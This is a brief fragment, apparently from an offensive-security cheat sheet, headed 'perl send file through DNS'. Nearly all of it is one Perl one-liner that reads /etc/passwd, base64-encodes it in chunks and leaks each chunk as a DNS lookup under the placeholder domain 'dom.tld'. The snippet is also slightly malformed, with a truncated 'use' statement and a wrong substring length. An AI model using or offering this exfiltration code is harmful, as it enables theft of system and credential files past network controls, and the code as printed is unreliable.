 # sec

+ **perl** send file through DNS

```
Socket;use MIME::Base64;sub x{$z=shift;for($i=0;$i<length($z);$i+=45){$x=encode_base64(substr($z,$i,$i+45),'');gethostbyname($x.".dom.tld");}} open(f,"/etc/passwd");while(<f>){x($_)}
```
